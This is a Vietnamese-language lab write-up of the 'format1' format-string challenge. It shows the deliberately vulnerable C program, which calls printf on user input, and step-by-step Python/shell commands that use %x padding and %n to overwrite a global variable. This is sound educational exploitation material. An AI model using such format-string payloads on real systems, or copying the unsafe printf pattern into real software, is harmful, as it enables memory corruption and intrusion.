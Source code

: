 # **format1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Vulnerability
printf(): hàm printf() không check liệu input có đúng định dạng hay không.\
%n: write

Nếu trong hàm printf có các format string (%x, %d, %n): hàm sẽ tự động lấy các tham số tương ứng trong stack.
## Exploit
- Tìm địa chỉ biến target: 0x08049638

  <img src="pictures/target_address.png">
- argv[1] nằm ở phía dưới của stack: 0xbffff...

  <img src="pictures/argv1_address.png">

=> ta cần:
- Cho địa chỉ của biến target vào stack
- làm cho %n trong printf() ứng với địa chỉ của biến targe

Xây dựng attack-string:
- sử dụng kĩ thuật fixed-length attack-string như cuối video của liveoverflow
  ```
  ./format1 "`python -c "print ('\x38\x96\x04\x08' + 'A'*500)[:500]"`"
  ```
- sử dụng %x để ăn các bytes ở đầu stack đến địa chỉ target:
  ```
  ./format1 "`python -c "print ('\x38\x96\x04\x08' + '%x '*150 + 'A'*500)[:500]"`"
  ```

  <img src="pictures/lech.png">
- Ta thấy địa chỉ bị lệch 2 bytes => thêm 2 ký tự bất kì vào trước để căn lề:
  ```
  ./format1 "`python -c "print ('AA\x38\x96\x04\x08' + '%x '*150 + 'A'*500)[:500]"`"
  ```
- Xóa một lượng %x vừa đủ để đến địa chỉ của target, thay bằng %n => ok:
  ```
  ./format1 "`python -c "print ('AA\x38\x96\x04\x08' + '%x '*129 + '%n' + 'A'*500)[:500]"`"
  ```

<img src="pictures/success.png">

# References
A simple Format String exploit example - bin 0x11: https://www.youtube.com/watch?v=0WvrSfcdq1I